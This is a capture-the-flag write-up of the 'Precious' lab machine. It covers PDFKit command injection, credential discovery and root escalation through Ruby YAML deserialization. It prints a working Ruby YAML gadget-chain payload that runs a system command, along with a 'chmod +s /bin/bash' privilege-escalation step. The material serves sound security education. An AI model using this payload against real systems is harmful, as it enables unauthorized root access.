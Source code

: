 ```yaml
---
description: PDFkit and Deserialization.
---
```


# Precious

## Gaining Access

**Nmap Scan:**

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Seems like a web vulnerability exploit kinda machine.

### PDFKit

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Website to PDF ind of functions run on plugins, and depending on the language used to do this conversion (JS, PHP), there are exploits for them.

For instance, we can redirect this website to our own hosted HTTP server and convert that. Alternatively, attempts can be made in order to exploit the website via LFI to read the files on the machine.

For enumeration purposes, I began by generating a PDF and downloading it to my machine from this website. We can enumerate the PDF to see if there is a particular software being used.

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

This version of pdfkit is vulnerable to RCE using CVE-2022-25765. There are public exploit scripts available for this.

{% embed url="https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795" %}

Following the exploit, we can test to see if we indeed have RCE:

<figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

Works! Now we just need to gain a reverse shell. I used a simple bash shell to do so.

<figure><img src="../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Getting Henry

When we gain access as the user ruby, the flag is not there. There is another user named henry in this machine.

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

We don't have permissions to read the flag from henry's directory. However, when poking around ruby's directory and looking into the .bundle directory, we can find henry's password.

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

With this, we can SSH in as henry for a better shell. Then, we can grab the user flag.

### Ruby Deserialization

Checking sudo privileges, we find that henry is able to execute the following:

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Intriguing. The script is as shown below:

```ruby
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

From the looks of this script, YAML.load function is being used. There are certain deserialization exploits for this. The attack is known as 'YAML Deserialization'

Hacktricks has a relevant page covering it.

{% embed url="https://book.hacktricks.xyz/pentesting-web/deserialization/python-yaml-deserialization" %}

When searching along the lines of Ruby deserialisation attacks through YAML.load, I found this article which included a PoC.

{% embed url="https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/" %}

How this works is thorugh implementing a gadget chain that was previously used with other Ruby YAML exploits. This basically gives us RCE over the machine as root.&#x20;

We just need to put the malicious YAML file in some writeable place and execute it. Works because the script does not check for an absolute path. Here's the PoC:

```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```

I changed the command to `chmod +s /bin/bash` and tried it out. Worked!

<figure><img src="../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Rooted!
